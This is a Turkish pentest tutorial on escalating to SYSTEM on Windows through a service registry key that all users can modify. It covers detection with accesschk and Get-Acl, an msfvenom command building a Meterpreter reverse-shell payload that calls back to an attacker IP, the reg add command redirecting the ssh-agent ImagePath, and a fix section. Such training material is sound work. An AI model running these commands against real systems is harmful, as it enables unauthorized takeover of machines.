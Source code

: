```yaml
---
layout: post
title: Modifiable Service Registry Key
description: "Kayıt Defterindeki Düzenlenebilir Anahtarlar."
modified: 2020-09-15
comments: true
categories: TR
tags: [yetki yükseltme, privilege escalation, windows, pentest]
---
```


##	Özet

Windows sistemlerde sistemde bir servis kaydedildiğinde, kayıt defterine servisin çalıştırılabilir dosyasını içeren bir anahtar girilir. Varsayılan ayarlarda sadece yöneticilerin değiştirebileceği bu anahtar bazen yanlış yapılandırılarak başka kullanıcılar tarafında değiştirilebilir hale gelebilir. Bu şekilde bir yanlış yapılandırma sonucu yeni ayrıcalık elde etme çok karşılaşılan bir senaryo değildir. 


##	Detay

Örneğin NT AUTHORITY\SYSTEM ayrıcalıklarında çalıştırılan bir servisin çalıştırılabilir dosya (exe) yolu başka kullanıcılar tarafından değiştirilebilir olsun. Bu anahtar sisteme yüklenmiş zararlı yazılımın tam yolu ile değiştirilebilir. Zararlı yazılımın tam yolu anahtara girildiğinden dolayı, Windows değiştirilen adresteki çalıştırılabilir dosyayı yani zararlı yazılımı çalıştıracaktır. Servis NT AUTHORITY\SYSTEM ayrıcalıklarında çalıştırıldığı için zararlı yazılımda bu ayrıcalıklar ile çalıştırılacaktır. Elde edilen oturumda bu ayrıcalıklara sahip olacaktır.

Özetle servisin kayıt defterindeki adresi değiştirilmiş dosyayı çalıştırmasından dolayı sistemde yeni ayrıcalıklar elde edilmiş oldu. Servisin kayıt defterinde ki izinlerinin hatalı yapılandırılması bu duruma sebebiyet vermiştir.


## Bulunması

Sisteme bir hizmet eklendiği zaman kayıt defterinde bu izinler
~~~
HKLM\SYSTEM\CurrentControlSet\Services 
~~~
bölümüne eklenir. İzinlerin yanlış yapılandırılıp yapılandırılmadığını kontrol etmek için bu bölüm altındaki kayıtlar incelenmelidir. İnceleme sysinternals araçlarından olan **accesschk.exe** kullanılarak yapılabilir.

İnceleme için;
```powershell
Accesschk.exe “Everyone” -kvuqsw HKLM\SYSTEM\CurrentControlSet\Services
```
komutunu kullanarak yapabilirsiniz.

<p align="center">
	<img src="/images/mod_serv_reg_ss/1.png" alt="">
</p>


<pre><code class="powershell">Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ssh-agent | Format-List</code></pre>

Yanlış yapılandırılmış servisi daha detaylı incelemek için;
```powershell
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ssh-agent | Format-List
```
komutu girilebilir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/2.png" alt="">
</p>

Çıktılar incelendiğinde ssh-agent servisinin NT AUTHORITY\SYSTEM ayrıcalıklarında çalıştığı ve kayıt defterinde herkes tarafından düzenlenebilir olduğu görülebilir.

Tüm işlemleri otomatik olarak yapmak için DazzleUp kullanılabilir. DazzleUp çıktısının ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/3.png" alt="">
</p>

Yanlış yapılandırılmış kayıt izinleri aşağıda gösterilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/4.png" alt="">
</p>

##	İstismar Edilmesi

Kayıt defterindeki anahtar değeri değiştirilerek bulaştırılacak olan zararlı yazılımı;
```bash
msfvenom --platform windows -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.6.182 LPORT=445 -f exe -o zararli.exe
```
komutu ile hazırlanabilir. Komutun hazırlandığına dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/5.png" alt="">
</p>

Zararlı yazılım hedef makineye daha önceden elde edilmiş bir oturum üzerinden yüklendiğine dair ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/6.png" alt="">
</p>

Kayıt defterinde **open-ssh** kaydının **ImagePath** anahtarı kontrol edildiğinde kendi çalıştırılabilir dosyasının yolunun kayıtlı olduğu aşağıda gösterilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/7.png" alt="">
</p>

Kayıt;
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Services\ssh-agent /v ImagePath /t REG_EXPAND_SZ /d C:\Users\test\Desktop\zararli.exe
```
komutu yazılarak değiştirilebilir. Komutun, test kullanıcısının ayrıcalıklarında yazıldıktan sonraki ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/8.png" alt="">
</p>

Komut sonucu **ImagePath** anahtarında ki değişiklik aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/9.png" alt="">
</p>

Aynı denetlemeyi daha önce elde ettiğimiz oturumdan da kontrol ederek doğrulayabiliriz. Doğrulama için;
```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\ssh-agent /v ImagePath
```
komutu kullanılabilir. Komutun ekran çıktısı aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/10.png" alt="">
</p>

Zararlı yazılımın çalışması için servisin tekrar başlatılması gerekmektedir. Servis tekrar başlatıldığında elde edilecek oturum NT AUTHORITY\SYSTEM ayrıcalıklarında olacaktır. Elde edilen oturumun ekran görüntüsü aşağıda verilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/12.png" alt="">
</p>

**NOT:** Windows işletim sistemi servisin düzgün başlatılıp başlatılmadığını kontrol eder. Eğer servis 3 dakika içerisinde düzgün başlatılmaz ise aşağıda ki ekran görüntüsünde verilen bilgilendirmeyi yapar ve öncesinde başlattığı bütün süreçleri öldürür. Hazırlanan zararlı yazılım servis olmadığı için düzgün başlatılamayacak ve elde edilen oturum kısa süre içerisinde ölecektir. Kısa süre içerisinde başka bir sürece migrate olunması gerekmektedir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/13.png" alt="">
</p>

##	Çözüm

Kayıt defterinde ki izinlerin yanlış yapılandırılmasından kaynaklı olan bu yöntemi engellemek için izinlerin doğru şekilde tekrar yapılandırılması gerekmektedir. İzinleri değiştirme yetkisini sadece yöneticilere verilecek şekilde düzenlemek problemi çözecektir.
Aşağıda ki ekran görüntüsünde **Everyone** kaldırılarak sadece yöneticilerin değiştirme izninin kaldığı gösterilmiştir.

Accesschk ile yanlış yapılandırılmış kayıt tekrar kontrol edildiğinde **Everyone** artık değiştirme ayrıcalığına sahip olmadığı görülür.

<p align="center">
	<img src="/images/mod_serv_reg_ss/14.png" alt="">
</p>

Yapılandırma hatasını otomatik olarak bulan DazzleUp ile tekrar kontrol edildiğinde, yapılandırma hatasının giderildiği aşağıda ki resimde gösterilmiştir.

<p align="center">
	<img src="/images/mod_serv_reg_ss/15.png" alt="">
</p>

##	Kaynakça

*	https://en.wikipedia.org/wiki/Windows_Registry
*	https://github.com/hlldz/dazzleUP
*	https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk
